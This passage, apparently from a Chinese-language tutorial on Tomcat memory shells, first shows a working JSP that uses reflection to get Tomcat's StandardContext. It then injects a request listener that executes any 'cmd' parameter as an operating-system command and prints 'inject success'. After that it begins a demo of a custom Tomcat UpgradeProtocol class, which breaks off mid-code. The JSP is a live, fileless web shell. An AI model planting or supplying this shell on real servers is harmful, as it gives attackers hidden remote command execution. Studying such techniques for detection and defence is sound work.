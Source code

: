 ```
        public void requestDestroyed(ServletRequestEvent servletServletRequestListenerRequestEvent) {

        }
        @Override
        public void requestInitialized(ServletRequestEvent servletRequestEvent) {
            String cmd = servletRequestEvent.getServletRequest().getParameter("cmd");
            if(cmd != null){
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {}
            }
        }
    }
%>

<%
    ServletContext servletContext =  request.getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
    S servletRequestListener = new S();
    standardContext.addApplicationEventListener(servletRequestListener);
    out.println("inject success");
%>
```

##### 1.3.Tomcat Upgrade 标准特性

###### 1.3.0.编写一个简单的 Tomcat Upgrade 的 demo

在之前的Tomcat Valve项目的基础上做了简单的修改，删除之前test目录下的TestValve.java，新建一个TestUpgrade.java：

```
package org.example.valvememoryshelldemo.test;

import org.apache.coyote.*;
import org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler;
import org.apache.tomcat.util.net.SocketWrapperBase;
import org.springframework.context.annotation.Configuration;
import java.lang.reflect.Field;
import java.nio.ByteBuffer;

@Configuration
public class TestUpgrade implements UpgradeProtocol {
    @Override
    public String getHttpUpgradeName(boolean b) {
        return "hello";
    }

    @Override
    public byte[] getAlpnIdentifier() {
        return new byte[0];
    }

    @Override
    public String getAlpnName() {
        return null;
    }

    @Override
```